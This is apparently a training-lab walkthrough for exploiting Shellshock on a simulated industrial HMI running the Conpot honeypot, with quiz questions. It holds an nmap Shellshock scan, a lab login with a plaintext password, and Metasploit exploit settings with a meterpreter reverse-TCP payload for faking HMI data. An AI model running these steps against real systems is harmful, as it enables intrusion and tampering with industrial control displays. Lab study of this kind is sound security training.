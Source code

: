 Shellshock, a critical vulnerability, targeted Unix-based systems through the popular Bash shell. It arose from mishandled environment variables, letting attackers inject malicious code for unauthorized access. This flaw risked extensive harm, from data breaches to full OS control. Rapid spread prompted quick patches by OS vendors, stressing proactive security and timely updates to prevent emerging risks.

Shellshock's impact was significant, exposing organizations and users to cyberattacks. Malicious actors exploited the vulnerability, causing financial losses, breaches, and reputational harm. The cybersecurity community responded with patches and strategies. OS vendors played a key role by releasing timely updates, and stressing their applications. Best practices emerged, like limiting Bash use and enhancing security. The incident highlighted the need for vigilant security to counter OS-level threats.
# Target Configuration

The Human-Machine Interface (HMI) is a graphical system enabling human interaction with machines, common in industrial and control settings. This system visually represents data and controls, and facilitates information exchange between operators and the monitored systems.

An HMI interface present within the Target machine will be exploited later on, allowing the display of a fabricated value instead of the genuine data.

Prior preparation is essential before taking the next step.

To disable the SNMP server, follow these steps on the simulated system that has its own SNMP server running.
`sudo service snmpd stop`

Next, initiate the Apache Web server, running alongside the target HMI Web server. The Apache server contains a bash script that could be exploited if the operating system is vulnerable to Shellshock.
Start the Apache server using the following command:
`sudo service apache2 start`
# Shellshock check

Shellshock is a critical vulnerability in Unix-based systems, including the **Apache HTTP Server with CGI** enabled. This vulnerability allows attackers to execute malicious code through improper input handling in the Bash shell's environment variables. This can lead to unauthorized access and data breaches.

To assess the Target machine for the Shellshock vulnerability, initiate an nmap scan.
On the Student machine, open the terminal window and input the following command.

`nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/shockme.cgi 192.168.1.102 --unprivileged`

Utilizing the Nmap command, a scan is conducted on the Target to identify the Shellshock vulnerability, with a specific emphasis on the provided URI.

Upon the completion of the Nmap scan, the presence of the Shellshock vulnerability is confirmed and additional reference information about the vulnerability is provided.
# Starting Conpot

Conpot is an open-source honeypot software designed to emulate various industrial control systems (ICS) protocols, like Modbus, DNP3, and S7comm, enabling the creation of realistic-looking ICS environments to detect and analyze attacks, gather threat intelligence, and employ features such as logging, alerting, and SNMP server simulation.
First, navigate back to the Target machine and log in as the user conpot:
`su conpot`

When prompted for the password, enter conpot:
`conpot`

Lastly, to initiate Conpot, enter the following command:

`/home/conpot/.local/bin/conpot --template default --logfile /var/log/conpot/conpot.log -f --temp_dir /tmp`

Based on the output of conpot when u ran it, what port did IPMI start on? 
![[Pasted image 20250804183339.png]]
# Visiting the HMI page

Navigate to the Student machine and open a Firefox tab.
Utilize the provided link below to reach the HMI page.

http://192.168.1.102:8800

Later in the process, the system uptime will be manipulated to display an arbitrary value on the page.
### Starting Metasploit

The Metasploit framework is a powerful open-source tool used for penetration testing and exploiting vulnerabilities in computer systems. The framework provides a vast collection of exploits, payloads, and auxiliary modules, making it an essential resource for security professionals.

Initiate the Metasploit Framework by entering the provided command in the terminal.
`msfconsole`
# Metasploit Configuration

In the Metasploit console, execute the provided command to select the "apache mod_cgi Bash Environment Variable Code Injection" option.
`use exploit/multi/http/apache_mod_cgi_bash_env_exec`

Set the RHOST variable to:
`set RHOSTS 192.168.1.102`

After performing a scan on the Target machine using the provided URI (/cgi-bin/shockme.cgi) to detect the shellshock vulnerability, the results revealed the vulnerability of the Target host. Proceed by configuring the TARGETURI variable to:
`set TARGETURI /cgi-bin/shockme.cgi`

Set the Payload variable to:
`set PAYLOAD linux/x86/meterpreter/reverse_tcp`

Lastly, to confirm the changes made use the following command:
`show options`

What is the RPORT of the target?

